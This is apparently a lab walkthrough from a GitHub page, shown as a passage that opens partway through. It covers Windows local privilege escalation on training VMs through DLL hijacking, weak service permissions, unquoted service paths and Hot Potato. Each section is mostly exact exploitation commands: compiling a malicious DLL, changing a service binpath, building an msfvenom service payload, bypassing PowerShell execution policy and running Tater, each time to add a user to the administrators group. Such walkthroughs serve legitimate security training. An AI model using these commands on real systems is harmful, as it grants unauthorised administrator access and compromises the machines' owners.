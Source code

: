 Kali VM
1. Open windows_dll.c in a text editor and replace the command used by the system() function to: cmd.exe /k net localgroup administrators user /add
2. Exit the text editor and compile the file by typing the following in the command prompt: x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
3. Copy the generated file hijackme.dll, to the Windows VM.
Windows VM
1. Place hijackme.dll in ‘C:\Temp’.
2. Open command prompt and type: sc stop dllsvc & sc start dllsvc
3.  It is possible to confirm that the user was added to the local  administrators group by typing the following in the command prompt: net localgroup administrators

---
## BinPath
### Detection
Windows VM
1. Open command prompt and type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc
2. Notice that the output suggests that the user “User-PC\User” has the “SERVICE_CHANGE_CONFIG” permission.
### Exploitation
Windows VM
1. In command prompt type: sc config daclsvc binpath= "net localgroup administrators user /add"
2. In command prompt type: sc start daclsvc
3. It is possible to confirm that the user was added to the local  administrators group by typing the following in the command prompt: net localgroup administrators

---
## Unquoted Service Paths 
### Detection
Windows VM
1. Open command prompt and type: sc qc unquotedsvc
2. Notice that the “BINARY_PATH_NAME” field displays a path that is not confined between quotes.
### Exploitation
Kali VM
1. Open command prompt and type: msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
2. Copy the generated file, common.exe, to the Windows VM.

Windows VM
1. Place common.exe in ‘C:\Program Files\Unquoted Path Service’.
2. Open command prompt and type: sc start unquotedsvc
3.  It is possible to confirm that the user was added to the local  administrators group by typing the following in the command prompt: net localgroup administrators

---
## Hot Potato
### Exploitation
Windows VM
1. In command prompt type: powershell.exe -nop -ep bypass
2. In Power Shell prompt type: Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1
3. In Power Shell prompt type: Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
4. To confirm that the attack was successful, in Power Shell prompt type: net localgroup administrators

---